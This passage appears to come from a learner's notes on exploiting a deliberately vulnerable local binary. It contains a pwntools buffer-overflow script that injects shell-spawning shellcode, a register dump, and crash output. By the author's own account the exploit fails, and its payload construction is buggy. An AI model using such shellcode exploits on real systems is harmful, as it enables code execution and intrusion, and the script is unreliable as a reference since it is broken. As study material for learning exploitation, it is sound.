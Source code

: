 Ahhhhh, I see the problem now. If we take a look at our stack pointer register

```c
$rsp   : 0x00007fffffffe0c8  →  0x00007fffffffe010  →  0x0000000000000000
```

It ends in an `8`. This means that our stack pointer isn't correctly aligned, so it doesn't know where to go. That's alright, we just have to correct that in our exploit script

```c
from pwn import *

e = context.binary = ELF("./bof")
p = process(e.path)
libc = e.libc

input("Waiting....")
shellcode = asm(shellcraft.sh())
payload = shellcode
payload += payload.ljust(72, b"A")
payload += p64(0x7fffffffe010)

p.sendline(payload)
p.interactive()
```

And now run it

```c
 tango@arch  assets   master ±  python exploit-x86_64.py
[*] '/home/tango/git/gitbook/gitbook-learning/.gitbook/assets/bof'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Starting local process '/home/tango/git/gitbook/gitbook-learning/.gitbook/assets/bof': pid 64784
Waiting....
[*] Switching to interactive mode
What are you going to say?
Thank you, have a nice day!
[*] Got EOF while reading in interactive
$ 
[*] Process '/home/tango/git/gitbook/gitbook-learning/.gitbook/assets/bof' stopped with exit code -11 (SIGSEGV) (pid 64784)
[*] Got EOF while sending in interactive
```

Aannndddd that didn't work, when attaching it again we see our stack hasn't been aligned.

After debugging for 2 hours, I'm managed to get my shellcode to be jumped to, but the actual pwntools shellcode doesn't work, which is ... very odd. I noticed that my shellcode wasn't the actual place where the binary was jumping to, but a couple of addresses before hand. So I decided to nop to the address, which works. Then the shellcode goes through, but doesn't end up executing the last 3 instructions, but jumps somewhere. Odd. Anyhow, this is my non working exploit because of shellcode
